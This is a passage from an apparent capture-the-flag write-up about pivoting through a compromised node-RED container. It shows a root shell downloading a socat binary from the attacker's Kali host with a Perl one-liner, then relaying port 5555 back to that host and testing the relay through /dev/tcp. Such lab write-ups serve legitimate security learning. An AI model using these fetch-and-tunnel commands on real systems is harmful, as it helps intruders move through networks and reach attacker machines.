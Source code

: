 Playing a bit with the shell we noticed that it can talk back to the node-RED container, but it cannot talk back to our kali.

Because of that we need to use again the node-RED as a jump box, and we are using socat to help us here.

Searching on the internet we find another static binary that we can use on this github page - [socat static](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)

```bash
root@nodered:/tmp# perl -MHTTP::Tiny -e '$http = HTTP::Tiny->new; $http->mirror("http://10.10.14.8:8181/socat-static", "socat-static");'
"http://10.10.14.8:8181/socat-static", "socat-static");'rror(
```

```bash
root@nodered:/tmp# chmod +x socat-static
chmod +x socat-static
```

Redirect any connection to port `5555` on node-Red to port `5555` on my Kali.

```bash
root@nodered:/tmp# /tmp/socat-static tcp-listen:5555,fork tcp:10.10.14.8:5555 &
/tmp/socat-static tcp-listen:5555,fork tcp:10.10.14.8:5555 &
[1] 1708
```

To play a little and understand more, I used the static socat on the kali machine to see of the connection from node-red would arrive on port 5555.

For that I initiate socat as a listener and instructed it to print the connections on the terminal and keep listening.

```bash
$ socat TCP-LISTEN:5555,reuseaddr,fork SYSTEM:"echo 'Connection from: $SOCAT_PEERADDR:$SOCAT_PEERPORT'; sleep 10"
```

On node-red I tested the connection to its on IP and localhost (only to play with it).

```bash
root@nodered:/tmp# echo > /dev/tcp/172.19.0.3/5555
echo > /dev/tcp/172.19.0.3/5555

root@nodered:/tmp# echo > /dev/tcp/127.0.0.1/5555
echo > /dev/tcp/127.0.0.1/5555
```

Both arrived fine on my kali.

```bash
$ socat TCP-LISTEN:5555,reuseaddr,fork SYSTEM:"echo 'Connection from: $SOCAT_PEERADDR:$SOCAT_PEERPORT'; sleep 10" 
2024/08/23 02:04:35 socat[473838] W exiting on signal 15
2024/08/23 02:06:53 socat[474995] W exiting on signal 15
```

Now I need to test it direct on the shell on the webserver.
